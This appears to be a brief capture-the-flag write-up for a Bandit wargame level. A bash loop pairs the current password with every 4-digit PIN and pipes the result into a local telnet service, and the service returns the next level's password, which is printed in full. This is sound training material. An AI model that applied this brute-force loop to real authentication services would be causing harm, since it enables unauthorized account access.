 #!/bin/bash

# telnet localhost 30002

for i in $(seq -f "%04g" 1 9999); do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done;

telnet localhost 30002

bandit24@bandit:/tmp/tmp.MfqBeDzgI8$ bash script.sh > inputs.txt
bandit24@bandit:/tmp/tmp.MfqBeDzgI8$ telnet localhost 30002 < inputs.txt
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
...
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

Connection closed by foreign host.
bandit24@bandit:/tmp/tmp.MfqBeDzgI8$ 


